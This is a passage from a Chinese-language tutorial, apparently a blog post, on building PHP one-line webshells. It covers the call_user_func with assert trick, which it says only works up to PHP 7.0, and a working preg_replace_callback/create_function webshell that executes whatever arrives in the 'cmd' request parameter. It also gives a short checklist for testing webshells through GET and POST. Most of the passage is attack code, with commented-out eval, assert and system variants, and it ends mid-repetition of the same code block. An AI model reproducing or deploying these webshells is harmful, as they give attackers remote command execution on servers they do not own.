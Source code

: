 ![image-20200911104416978](/images/webshell/image-20200911104416978.png)

更换7.1.20尝试，无法显示phpinfo信息

![image-20200911104522817](/images/webshell/image-20200911104522817.png)

这个禁用特性其实是从 php 7.1 版本开始，所以 `call_user_func + assert` 构造的一句话木马在 php 7.0 版本及以下可以使用。

##### preg_replace_callback

 `preg_replace /e` 函数写 webshell，因为此函数5.5.0及以上版本已经被弃用了。使用 preg_replace_callback() 代替。

```php+HTML
<?php
//eval(system('date'));
//$tmp='system("'.$_GET[cmd].'");';
//eval($tmp);
//@eval($_POST[cmd]);
//assert(system("date"));
//assert($_GET['cmd']);
//$tmp = create_function('',system('date'));
//$tmp();

//$tmp = create_function('',$_POST['cmd']);
//$tmp();

//call_user_func(system("date"));
//call_user_func(assert,$_POST['cmd']);
//@call_user_func(assert,phpinfo());

//@call_user_func(assert,$_GET['cmd']);

preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'), $_REQUEST['cmd']);

?>
```

此 webshell 的原理为：通过 `create_function` “创造”一个函数，它接受一个数组，并将数组的第一个元素$arr[0]传入assert。

![image-20200911105751006](/images/webshell/image-20200911105751006.png)

##### file_put_contents

webshell 调试三部曲：

1. 把函数写在 php 文件中，看能否执行
2. 写成 `$_GET['']` 方式传入命令，看能否执行
3. 写成 `$_POST['']`方式传入命令，能能否执行命令
   `注：`2、3步可以合成通过`$_REQUEST['']`方法传入命令。

```php+HTML
<?php
//eval(system('date'));
//$tmp='system("'.$_GET[cmd].'");';
//eval($tmp);
//@eval($_POST[cmd]);
//assert(system("date"));
//assert($_GET['cmd']);
//$tmp = create_function('',system('date'));
//$tmp();

//$tmp = create_function('',$_POST['cmd']);
//$tmp();

//call_user_func(system("date"));
//call_user_func(assert,$_POST['cmd']);
```